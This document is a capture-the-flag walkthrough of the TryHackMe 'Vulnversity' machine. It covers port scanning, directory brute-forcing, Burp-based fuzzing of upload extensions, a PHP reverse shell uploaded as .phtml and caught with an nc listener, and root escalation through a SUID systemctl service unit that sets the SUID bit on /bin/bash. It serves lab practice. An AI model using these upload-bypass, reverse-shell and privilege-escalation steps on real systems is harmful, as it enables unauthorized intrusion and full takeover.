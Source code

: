 ## Machine Resolution: Vulnversity

[TryHackMe: Vulnversity Machine](https://tryhackme.com/room/vulnversity)

**Objective:** Perform enumeration, exploitation, and privilege escalation on the "Vulnversity" machine to identify vulnerabilities.

---

## Machine Description
The **Vulnversity** machine is an introductory-level machine on TryHackMe that allows practicing basic techniques of enumeration, port scanning, exploitation of common services, and privilege escalation.

## 1. General Information about the Machine
- **Machine Name**: Vulnversity
- **IP Address**: 10.10.120.94
- **Objective**: Gain access and privileges on the machine using ethical hacking techniques.

## 2. Enumeration
We scan with `nmap` to detect service versions. This gives us a better idea of what specific vulnerabilities might be present.
```bash
nmap -sC -sV -oN 10.10.120.94/initial_scan.txt 10.10.120.94
``` 

#### Used flags
- **-sC:** Runs default nmap script scans, getting more details about services (like versions and potential vulnerabilities).
- **-sV:** Detects versions of services on each open port, helping us determine if they are vulnerable or outdated versions.
- **-oN  nmap/initial_scan.txt** Saves the scan results to a file named initial_scan.txt for future reference.

#### Scan Results
```plaintext
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)

``` 

#### Gobuster
Perform brute force attack with `Gobuster` to determine if there are hidden directories.
When I run the scan like this it shows me an error, this happens because the web server is not on the standard port (port 80), but rather on port 3333
```bash
gobuster dir -u http://10.10.195.20 -w /usr/share/wordlists/dirb/big.txt
``` 

#### Command is executed again specifying port

```bash
gobuster dir -u http://10.10.195.20:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
``` 

#### Brute force result
In these results several directories are identified, I focus on one called `/internal/`, in this path I can upload files to the server.
![alt text](imgs/img1.png)

#### Dirbuster: Brute force to internal folder
With this tool perform a scan of the internal folder to identify more important directories
    ![alt text](imgs/img8.png)
In the results I identified three routes that could be where the uploaded files are saved.
```plaintext
/images/
/icons/
/uploads/
``` 

## 3. Exploitation of Vulnerabilities
In this part of the exploitation I am going to focus on the route that I found in the enumeration phase, what I am going to try is to upload a malicious file and thus be able to compromise the server.
For this purpose the first thing I must do is identify what type of files can be uploaded in the file upload form, this can be done in several ways:
- **Source code:** inspect the application to see if the form contains the accept attribute where it specifies what type of files are accepted.
![alt text](imgs/img2.png)
- **Test File Uploads:** Perform tests by uploading different types of files and observe the server's responses. This can help you identify which extensions are accepted or rejected.

- **Burbsuite** With this tool I can quickly and more safely identify what type of files are allowed
 1. **Run Burp:** Making sure to intercept the request when uploading a test file.
    ![alt text](imgs/img3.png)
 2. **Intruder:** When you are in the intruder, select the extension of the test file, since this is the one that will change during the attack.
    ![alt text](imgs/img4.png)
 3. **File with extensions:** I create a file with different extensions and in Burb in the payload tab I load this file and start the attack.
    ```plaintext
    .png
    .jpg
    .php
    .php3
    .php4
    .php5
    .phtml
    ``` 
    ![alt text](imgs/img5.png)
    
4. **Results:** In the results of the attack it can be observed that one of the extensions is a different length than the others, this indicates that this could be the accepted extension.
    ![alt text](imgs/img6.png)
5. **Reverse shell:** We are going to use a PHP reverse shell as our payload, [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Once I get this shell, I edit the IP of the attacking machine and then change the extension to phtml, which is the extension I described above that is allowed.
6. **Having the payload:** I go to a terminal on my attacking machine and run the following command to listen for a reverse connection
    ```bash
    nc -lvnp 1234
    ``` 
7. **Upload file:** The next step is to upload the payload to the server and go to where it was saved so that it runs and thus obtain my connection.
    ```bash
    10.10.207.213:3333/internal/uploads/v.phtml
    ``` 
8. **Reverse Shell:** When I upload and run the file I get my connection reversed
    ![alt text](imgs/img7.png)

## 4. Privilege Escalation
To escalate privileges one of the first steps I do is to identify which files contain a special permission called SUID, which grants temporary permissions to a user to execute the binary with the permission of the owner instead of the user who executes it. To find these files I run:
```bash
find / -perm -4000 -ls 2>/dev/null
```
In this case, among all the listed files there is one that stands out. `/bin/systemctl`
```plaintext
131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs
``` 

#### External resource 
On [this page](https://gtfobins.github.io/gtfobins/systemctl/#suid) you can find different scripts that when executed will allow me to escalate privileges.
In this case the code executed is the following and what it does is indicate that the file /bin/bash should receive the SUID bit, this allows that every time any user executes /bin/bash, the command is executed with root permissions
```plaintext
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``` 

Now when starting an instance of bash it will be executed as root user
```bash
bash -p
```
![alt text](imgs/img9.png)














